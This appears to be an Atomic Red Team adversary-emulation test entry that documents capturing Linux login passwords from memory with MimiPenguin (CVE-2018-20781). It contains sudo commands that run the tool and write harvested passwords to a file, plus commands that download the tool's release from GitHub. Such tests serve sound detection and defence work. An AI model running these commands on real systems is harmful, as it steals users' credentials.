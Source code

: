 


<br/>
<br/>

## Atomic Test #4 - Capture Passwords with MimiPenguin
MimiPenguin is a tool inspired by MimiKatz that targets Linux systems affected by CVE-2018-20781 (Ubuntu-based distros and certain versions of GNOME Keyring). 
Upon successful execution on an affected system, MimiPenguin will retrieve passwords from memory and output them to a specified file. 
See https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20781. 
See https://www.tecmint.com/mimipenguin-hack-login-passwords-of-linux-users/#:~:text=Mimipenguin%20is%20a%20free%20and,tested%20on%20various%20Linux%20distributions.

**Supported Platforms:** Linux


**auto_generated_guid:** a27418de-bdce-4ebd-b655-38f04842bf0c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.007Test3.txt|
| MimiPenguin_Location | Path of MimiPenguin script | path | /tmp/mimipenguin/mimipenguin_2.0-release/mimipenguin.sh|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo #{MimiPenguin_Location} > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file} > /dev/null
```



#### Dependencies:  Run with `sh`!
##### Description: MimiPenguin script must exist on disk at specified location (#{MimiPenguin_Location})
##### Check Prereq Commands:
```sh
if [ -f "#{MimiPenguin_Location}" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
wget -O "/tmp/mimipenguin.tar.gz" https://github.com/huntergregal/mimipenguin/releases/download/2.0-release/mimipenguin_2.0-release.tar.gz
mkdir /tmp/mimipenguin
tar -xzvf "/tmp/mimipenguin.tar.gz" -C /tmp/mimipenguin
```
##### Description: Strings must be installed
##### Check Prereq Commands:
```sh
if [ -x "$(command -v strings --version)" ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
sudo apt-get -y install binutils
```
